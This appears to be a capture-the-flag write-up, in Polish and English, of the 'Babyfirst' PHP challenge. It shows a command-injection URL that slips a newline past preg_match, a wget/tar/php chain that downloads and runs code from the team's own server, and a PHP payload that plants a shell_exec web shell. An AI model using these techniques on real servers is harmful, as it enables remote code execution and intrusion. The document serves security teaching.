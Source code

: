 ﻿## Babyfirst (web, 100p, ?? solves)

> baby, do it first.

> http://52.68.245.164

### PL
[ENG](#eng-version)

Po połączeniu się pod podany url wyświetla się nam taka strona:

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```

Program tworzy folder "sandbox/NASZE_IP" oraz `chdir`uje do niego. Możemy wyświetlić zawartość tego folderu nawigując w przeglądarce
do http://52.68.245.164/sandbox/NASZE_IP. Straciliśmy w tym momencie dużo czasu na zgadywanie co robi /bin/orange (cóż, okazuje się że nic - był to link symboliczny do /bin/true).

Ale później zaczeliśmy myśleć, w jaki sposób można ominąć preg_match() - bo to jedyny sposób jaki widzieliśmy. Próbowaliśmy różnych rzeczy,
ale ostatecznie zauważyliśmy bardzo ciekawą rzecz - jeśli ostatnim bajtem wyrazu jest \n, przechodzi on ten check. Co to oznacza? Że możemy 
zmusić exec do wykonania czegoś takiego:

http://52.68.245.164/?args[]=a%0A&args[]=touch&args[]=cat

```
/bin/orange a
touch cat
```

I stworzy nam to plik `cat` w naszym sandboxowym folderze. Jest to bardzo duży krok w przód - możemy wykonać dowolne polecenie składające się ze znaków alfanumerycznych.
Następnie myśleliśmy długo, jaką komendę wykonać - wszystko ciekawe wymagało użycia albo albo slasha, albo myślnika, albo kropki.

Odkryliśmy na szczęście w pewnym momencie, że wget ciągle wspiera pobieranie stron po IP, podanym jako liczbie! To znaczy że zadziała coś takiego:

http://92775836/

W tym momencie byliśmy kolejny duży krok bliżej rozwiązania zadania - wget może np. pobrać kod php z naszego serwera (jako tekst), a my wykonamy go za pomocą lokalnego intepretera php.
Niestety, duży problem. Wget zapisuje pliki do pliku o nazwie "index.html", a my nie jesteśmy w stanie takiej nazwy przekazać php (kropka!). Redirecty
po stronie serwera nie zmienią też nazwy pliku, bo do tego trzeba przekazać wgetowi odpowiednią opcję (myślnik!).

Zaczęliśmy się więc zastanawiać nad poleceniami, które dla podania swoich argumentów nie wymagają myślników. Od razu na myśl przyszedł nam `tar`. Gdyby udało nam się przekazać stworzone archiwum do interpretera PHP, ten powinien zignorować wszystko poza kodem PHP zawartym w `<?php ?>`.

Ciąg naszych ostatecznych poleceń wygląda następująco:

```
mkdir exploit
cd exploit
wget 92775836
tar cvf archived exploit
php archived
```

Nasz "eksploit" działał w następujący sposób:

```php
<?php
file_put_contents('shell.php', '
    <?php
    header("Content-Type: text/plain");
    print shell_exec($_GET["cmd"]);
    ?>
');
?>
```

Dzięki temu mogliśmy wykonywać już polecenia bez żadnych ograniczeń i w ten sposób szybko znaleźliśmy program odczytujący flagę w `/`.

### ENG version

After connecting to the provided url we get the following page:

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```

The program creates a directory: "sandbox/OUR_IP" and `chdir`s to it. We can list contents of the folder in a browser by navigating to http://52.68.245.164/sandbox/OUR_IP. We lost a lot of time at this moment by guessing what /bin/orange does (well, it turns out it does nothing, it's just a symbolic link to /bin/true). 

But then we started to think about how to bypass the preg_match() check - seeing as it was the only possible way. We tried a lot of things but finally noticed an interesting feat - if the last byte of the string is a newline character (`\n`) it also passes the check. What does it mean? That we can force exec to execute something like this:

http://52.68.245.164/?args[]=a%0A&args[]=touch&args[]=cat

```
/bin/orange a
touch cat
```

And that will create us a file named `cat` in our sandboxed folder. It's a big step forward - we can now execute an arbitrary command composing of alphanumeric characters. Then we thought long about which command to actually execute - everything interesting needed using slash, dash or dot.

But lucky us, we finally discoverd that `wget` is still supporting resolving ip hosts by its `long` number format. That means that we can make a download from:

http://92775836/

And that took us even further to completing the task: wget can download a php code from our webserver as text and then we'll execute it passing it to the local PHP interpreter.
However, there's a big problem: wget saves contents to a file named `index.html`, but we can't pass that filename to php (the dot!). Server-side redirects won't change the filename as well, because wget needs a parameter for that (dash!).

We begun by thinking of all commands which for their arguments don't need dashes. We almost instantly thought of `tar`. If we could pass a non-compressed archive to the PHP interpreter it should ignore everything besides PHP code enclosed in `<?php ?>`. 

Our final command chain looks like this:

```
mkdir exploit
cd exploit
wget 92775836
tar cvf archived exploit
php archived
```

Our "exploit" worked in a following way:

```php
<?php
file_put_contents('shell.php', '
    <?php
    header("Content-Type: text/plain");
    print shell_exec($_GET["cmd"]);
    ?>
');
?>
```

Thanks to which we could execute commands with no limitations of the character set and that way we quickly found a program giving us a flag sitting in `/`.

